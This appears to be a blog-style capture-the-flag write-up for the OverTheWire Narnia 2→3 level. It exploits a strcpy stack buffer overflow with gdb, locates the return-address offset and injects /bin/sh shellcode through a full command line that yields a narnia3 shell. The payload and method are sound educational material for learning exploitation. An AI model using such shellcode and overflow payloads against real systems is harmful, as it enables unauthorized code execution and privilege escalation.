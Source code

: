 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 2 -> 3"
subtitle:   "Write-Up"
date:       2017-02-03 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>

<p>What about another challenge in reverse engineering? Anywhere, anytime! </p>

<h1>Challenge</h1>

<p>As always, let's start from viewing the source code.</p>

{% highlight c %}
int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}

{% endhighlight %}

<p>Okay, now let's run it. </p>

{% highlight text%}
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ ./narnia2 ARGUMENT
ARGUMENTnarnia2@melinda:/narnia$
{% endhighlight %}

<p>As in the source code, we see that if argument is not passed, then usage instructions are printed, otherwise value of argument is printed on the next line. In addition, source code gives us information that char buf is 128 bytes in size. Let's try to trigger the segmentation fault. </p>

{% highlight text %}
ARGUMENTnarnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 140")
Illegal instruction
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 141")
Segmentation fault
{% endhighlight %}

<p>Hmm, that's interesting. After trying different amounts of A letters, I've noticed that by writing 140 of them, we will get <b>Illegal instruction</b> message, but 141 letters end up with our desired <b>Segmentation fault</b>. Maybe gdb will tell us something more? </p>

{% highlight text %}
narnia2@melinda:/narnia$ gdb ./narnia2
(gdb) break *main
Breakpoint 1 at 0x804845d
{% endhighlight %}

<p>Firstly let's investigate the illegal instruction option. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 140")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 140")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
0xf7e3ca00 in __libc_start_main () from /lib32/libc.so.6
(gdb) c
Continuing.

Program terminated with signal SIGILL, Illegal instruction.
The program no longer exists.

{% endhighlight %}

<p>Unfortunately after doing some research I've found out that SIGILL won't help us much. What we have to try is to overwrite the <b>instruction pointer. </b></p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 144")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 144")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
{% endhighlight %}

<p>Luckily, adding only 3 more A's overwrote the pointer. But here comes another problem, what is its address? </p>
<p>We can try to find out by writing around B's at the end. Let's see. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 138 + 'B' * 6")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 138 + 'B' * 6")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0xb7000000	0x9449f175
0xffffd800:	0xb7857a44	0x6da4653e	0x69a15cf3	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8b0:	0x41414141	0x42424242	0x58004242	0x535f4744
{% endhighlight %}

<p>Great! EIP address is 0xffffd8b3. Now we have to find a way to use shellcode from previous challenge. But firstly, let's find its length. </p>

{% highlight text %}
narnia2@melinda:/narnia$ python -c'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
{% endhighlight %}

<p>25 bytes. As our string have to be 144 bytes in length, I'll firstly write 112 bytes of A letters, then 25 bytes of our shellcode and then overwrite the EIP with memory address somewhere in the middle of A's. Let's try it out! </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")

(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0x4d000000	0x2bdc9c96
0xffffd800:	0xd596f713	0x775b1954	0x6969a442	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0xc0314141	0x2f2f6850
0xffffd8a0:	0x2f686873	0x896e6962	0x89c189e3	0xcd0bb0c2
0xffffd8b0:	0x40c03180	0x424280cd	0x58004242	0x535f4744
0xffffd8c0:	0x49535345	0x495f4e4f	0x30323d44	0x33323431
0xffffd8d0:	0x45485300	0x2f3d4c4c	0x2f6e6962	0x68736162
0xffffd8e0:	0x52455400	0x74783d4d	0x2d6d7265	0x63363532
0xffffd8f0:	0x726f6c6f	0x48535300	0x494c435f	0x3d544e45
0xffffd900:	0x362e3938	0x36312e34	0x3732312e	0x30333320
0xffffd910:	0x32203434	0x53530032	0x54545f48	0x642f3d59
0xffffd920:	0x702f7665	0x342f7374	0x434c0033	0x4c4c415f

{% endhighlight %}

<p>Great, we can see that even with the shellcode B's overwrote the EIP. Now let's try it with the actuall address - somewhere in the middle of the A letters. Maybe <b>0xffffd863</b>?</p>

{% highlight text %}
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x63\xd8\xff\xff'")
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
{% endhighlight %}

<p>And we've got the password to the next level!</p>

<h1>Conclusion</h1>
<p>The challenge was awesome, but really time consuming. It was worth every minute as I learned a lot from trying out these different ways to finish this level. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>

<p>~ Stay safe!</p>
